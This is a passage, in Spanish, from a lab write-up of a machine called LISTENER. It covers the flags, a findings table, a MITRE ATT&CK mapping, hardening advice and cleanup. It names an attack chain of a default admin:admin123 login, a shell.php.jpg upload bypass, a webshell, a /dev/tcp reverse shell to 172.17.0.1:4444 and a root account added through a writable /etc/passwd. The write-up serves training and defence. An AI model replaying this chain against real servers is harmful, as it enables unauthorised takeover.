### 6.4. Flag de root

```
cat /root/flag.txt
```

```
LISTENER{pwn_c4t_m4st3r_3tc_p4sswd_wr1t4bl3}
```

---

## 7. Flags

| Flag | Valor | Ubicación | Contexto |
| --- | --- | --- | --- |
| Usuario | `LISTENER{y0u_g0t_www_d4t4_v14_f1l3_upl04d}` | `/opt/user.txt` | Lectura como `www-data` tras la RCE |
| Root | `LISTENER{pwn_c4t_m4st3r_3tc_p4sswd_wr1t4bl3}` | `/root/flag.txt` | Lectura como `root` tras la escalada |



*Ambas flags leídas desde el sistema comprometido.*

### 7.1. Validación en la plataforma

La flag de root se introdujo en la plataforma del laboratorio y esta confirmó el compromiso del objetivo:



*Pantalla de confirmación: la flag de root fue aceptada y el laboratorio quedó marcado como comprometido.*

---

## 8. Hallazgos y criticidad

| # | Hallazgo | Severidad | Impacto |
| --- | --- | --- | --- |
| 1 | Credencial débil `admin:admin123` en el panel | Crítica | Acceso autenticado a la funcionalidad de subida |
| 2 | Validación de upload basada solo en la última extensión | Crítica | Bypass con `shell.php.jpg` |
| 3 | `SetHandler application/x-httpd-php` en todo `/uploads` | Crítica | Ejecución de cualquier archivo subido, aunque sea imagen |
| 4 | `/etc/passwd` con permisos `666` | Crítica | Creación de cuentas UID 0 y cambio de credenciales locales |
| 5 | PHP 7.4.33 sin soporte (EOL) | Alta | Vulnerabilidades sin parche y deuda técnica |
| 6 | Login sin rate limiting ni bloqueo | Alta | Fuerza bruta y password spraying |
| 7 | HTTP sin TLS en el panel | Media | Credenciales y sesión expuestas en la red |
| 8 | Cookie `PHPSESSID` sin `HttpOnly` ni `Secure` | Media | Robo de sesión vía XSS o tráfico no cifrado |
| 9 | Divulgación de la versión de Apache en la cabecera `Server` | Baja | Fingerprinting y selección de exploits |
| 10 | `Options Indexes` y `AllowOverride All` en `/uploads` | Media | Mayor superficie si se añaden archivos o `.htaccess` |

La combinación de los hallazgos 1–4 es suficiente para comprometer el sistema completo en pocos pasos. Cada uno de ellos, por separado, ya sería un riesgo relevante; juntos eliminan cualquier barrera entre el portal web y `root`.

---

## 9. MITRE ATT&CK

| Técnica | ID | Uso en el laboratorio |
| --- | --- | --- |
| Active Scanning | T1595 | Escaneo completo de puertos con Nmap |
| Network Service Discovery | T1046 | Identificación de Apache/PHP en `8080/tcp` |
| File and Directory Discovery | T1083 | Enumeración de `/uploads/` y `/uploads/logos/` |
| Brute Force: Password Guessing | T1110.001 | Hydra contra el formulario de login |
| Valid Accounts: Default Accounts | T1078.001 | Uso de `admin:admin123` |
| Exploit Public-Facing Application | T1190 | Bypass de validación y ejecución de PHP |
| Web Shell | T1505.003 | `cmd.php.jpg` en `/uploads/logos/` |
| Unix Shell | T1059.004 | `shell_exec`, Bash y `/dev/tcp` |
| Ingress Tool Transfer | T1105 | Subida de la webshell mediante HTTP |
| Create Local Account: Local Account | T1136.001 | Cuenta `pwned` con UID `0` en `/etc/passwd` |
| Account Manipulation | T1098 | Modificación de `/etc/passwd` |
| OS Credential Dumping: /etc/passwd and /etc/shadow | T1003.008 | Lectura de `/etc/passwd` y comprensión del esquema local |
| Non-Standard Port | T1571 | Apache en `8080/tcp` en lugar de `80/tcp` |

---

## 10. Recomendaciones

1. **Eliminar credenciales débiles y por defecto.** Sustituir `admin:admin123` por una contraseña única y fuerte, imponer política de contraseñas, MFA para el panel y bloqueo temporal tras varios intentos fallidos.

2. **Corregir la validación de archivos.** Validar el contenido real (magic bytes), recompilar o re-codificar las imágenes, limitar tamaño y dimensiones, generar nombres aleatorios y almacenar los archivos fuera del web root.

3. **Deshabilitar la ejecución en el directorio de subidas.** Eliminar `SetHandler application/x-httpd-php` de `/uploads` y añadir una configuración equivalente a:

   ```apache
   <Directory /var/www/html/uploads>
       Options -Indexes -FollowSymLinks
       AllowOverride None
       Require all granted
       SetHandler none
       php_admin_flag engine off
   </Directory>
   ```

   Servir los archivos subidos desde un dominio o vhost separado, con `Content-Disposition: attachment` y `X-Content-Type-Options: nosniff`.

4. **Corregir los permisos de `/etc/passwd`.** Debe ser `644 root:root`; las contraseñas deben residir en `/etc/shadow` con `640 root:shadow`. Ejecutar `pwck` y `grpck` para validar la integridad, y monitorizar cambios con AIDE, Tripwire o un FIM equivalente.

5. **Actualizar PHP y Apache.** PHP 7.4 está fuera de soporte; migrar a una versión mantenida. Aplicar los parches de Apache y eliminar los banners de versión (`ServerTokens Prod`, `ServerSignature Off`).

6. **Imponer HTTPS.** Redirigir todo el tráfico a TLS, añadir HSTS y configurar las cookies de sesión con `HttpOnly`, `Secure` y `SameSite`.

7. **Endurecer Apache.** Revisar `AllowOverride`, `Options`, `FollowSymLinks` y los handlers por directorio. Aplicar el principio de mínimo privilegio al usuario `www-data`.

8. **Limitar y monitorizar el login.** Rate limiting, CAPTCHA o MFA, registro de intentos fallidos y alertas por password spraying.

9. **Monitorizar la cadena de ataque.** Alertar sobre subidas de archivos con doble extensión, ejecución de PHP en `/uploads`, procesos `bash`/`sh` hijos de Apache, conexiones salientes a puertos altos, modificaciones de `/etc/passwd`, creación de usuarios UID 0 y lecturas de `/root`.

10. **Aplicar egreso restringido.** Bloquear conexiones salientes no necesarias desde el servidor web. Una reverse shell hacia `172.17.0.1:4444` debería ser un evento anómalo y alertable.

---

## 11. Artefactos y limpieza

### 11.1. Artefactos en el objetivo

| Artefacto | Acción |
| --- | --- |
| `/var/www/html/uploads/logos/shell.php.jpg` | Eliminado |
| `/var/www/html/uploads/logos/shell.php.jpeg` | Eliminado |
| `/var/www/html/uploads/logos/cmd.php.jpg` | Eliminado |
| `/var/www/html/uploads/logos/cleanup.php.jpg` | Eliminado |
| `/etc/passwd` — línea `pwned` y hash de `root` | Restaurado desde la copia original |
| `/tmp/passwd.bak`, `/tmp/passwd.before`, `/tmp/passwd.new`, `/tmp/r.sh` | Eliminados |

### 11.2. Restauración

La copia original de `/etc/passwd` se tomó antes de modificarlo. La restauración se hizo con:

```
cat /tmp/passwd.bak > /etc/passwd
```

Verificación:

```
grep '^root:' /etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
```

```
id pwned
```

```
id: 'pwned': no such user
```

Los webshells se eliminaron y el directorio de logos volvió a contener solo el archivo original:

```
ls -la /var/www/html/uploads/logos
```

```
-rw-r--r-- 1 www-data www-data 68 Feb 22  2026 default.jpg
```

La webshell temporal usada para borrar los temporales también se eliminó; una petición posterior devolvió `404`:

```
curl -s -o /dev/null -w '%{http_code}\n' \
  http://172.17.0.2:8080/uploads/logos/cleanup.php.jpg
```

```
404
```



*`/etc/passwd` restaurado, artefactos eliminados y webshell fuera de servicio (`404`).*

### 11.3. Evidencia local

```
README.md
evidencia/01-recon-nmap-full.txt
evidencia/01-recon-nmap-full.png
evidencia/01b-recon-udp.txt
evidencia/01b-recon-udp.png
evidencia/02-recon-nmap-services.txt
evidencia/02-recon-nmap-services.png
evidencia/03-web-enum.txt
evidencia/03-web-enum.png
evidencia/04-credentials.txt
evidencia/04-credentials.png
evidencia/05-upload-bypass.txt
evidencia/05-upload-bypass.png
evidencia/06-rce-webshell.txt
evidencia/06-rce-webshell.png
evidencia/07-listener-revshell.txt
evidencia/07-listener-revshell.png
evidencia/08-post-enum.txt
evidencia/08-post-enum.png
evidencia/09-privesc-root.txt
evidencia/09-privesc-root.png
evidencia/10-flags.txt
evidencia/10-flags.png
evidencia/11-apache-uploads-php.txt
evidencia/11-apache-uploads-php.png
evidencia/12-cleanup.txt
evidencia/12-cleanup.png
evidencia/13-validacion-flag.png
```

---

## 12. Conclusiones

LISTENER encadena tres fallos de configuración que, por separado, ya serían graves: una credencial débil, una validación de subida incompleta y un directorio de uploads que ejecuta todo como PHP. El resultado es una RCE como `www-data` con una sola petición autenticada. La escalada posterior no requiere un exploit de kernel ni un binario SUID: basta con que `/etc/passwd` sea escribible para crear una cuenta UID `0` y autenticarse como root.

El vector de listener completa la cadena: el objetivo inicia una conexión saliente hacia el atacante, lo que demuestra que una reverse shell es viable incluso cuando el servidor no expone más que HTTP. La lección principal es que la seguridad de una aplicación web no termina en la validación de la extensión: el contexto de ejecución del directorio de subidas y los permisos de los archivos del sistema son igual de importantes.

La limpieza se ejecutó al finalizar: `/etc/passwd` se restauró, los webshells y temporales se eliminaron y el laboratorio quedó en su estado original.

---

## Anexo A. Índice de evidencia

| # | Archivo | Fase |
| --- | --- | --- |
| 01 | `evidencia/01-recon-nmap-full.txt` | Escaneo completo de puertos |
| 01b | `evidencia/01b-recon-udp.txt` | Escaneo UDP de los puertos más comunes |
| 02 | `evidencia/02-recon-nmap-services.txt` | Detección de servicios y scripts |
| 03 | `evidencia/03-web-enum.txt` | Fingerprinting y enumeración web |
| 04 | `evidencia/04-credentials.txt` | Hydra y validación de `admin:admin123` |
| 05 | `evidencia/05-upload-bypass.txt` | Rechazo de `.php` y aceptación de `.php.jpg` |
| 06 | `evidencia/06-rce-webshell.txt` | Ejecución de comandos como `www-data` |
| 07 | `evidencia/07-listener-revshell.txt` | Listener TCP y reverse shell |
| 08 | `evidencia/08-post-enum.txt` | Enumeración local y `/etc/passwd` |
| 09 | `evidencia/09-privesc-root.txt` | Escalada con cuenta UID 0 y flag de root |
| 10 | `evidencia/10-flags.txt` | Flags de usuario y root |
| 11 | `evidencia/11-apache-uploads-php.txt` | Configuración `uploads-php.conf` |
| 12 | `evidencia/12-cleanup.txt` | Restauración y limpieza |

## Anexo B. Índice de capturas

| # | Imagen | Fase |
| --- | --- | --- |
| 01 | `evidencia/01-recon-nmap-full.png` | Escaneo completo de puertos |
| 01b | `evidencia/01b-recon-udp.png` | Escaneo UDP |
| 02 | `evidencia/02-recon-nmap-services.png` | Detección de servicios |
| 03 | `evidencia/03-web-enum.png` | Fingerprinting y enumeración web |
| 04 | `evidencia/04-credentials.png` | Credenciales y acceso al panel |
| 05 | `evidencia/05-upload-bypass.png` | Bypass de extensión y ejecución PHP |
| 06 | `evidencia/06-rce-webshell.png` | Webshell y flag de usuario |
| 07 | `evidencia/07-listener-revshell.png` | Listener TCP y reverse shell |
| 08 | `evidencia/08-post-enum.png` | Enumeración local y `/etc/passwd` |
| 09 | `evidencia/09-privesc-root.png` | Escalada a root |
| 10 | `evidencia/10-flags.png` | Flags de usuario y root |
| 11 | `evidencia/11-apache-uploads-php.png` | Configuración de Apache |
| 12 | `evidencia/12-cleanup.png` | Restauración y limpieza |
| 13 | `evidencia/13-validacion-flag.png` | Validación de la flag en la plataforma |
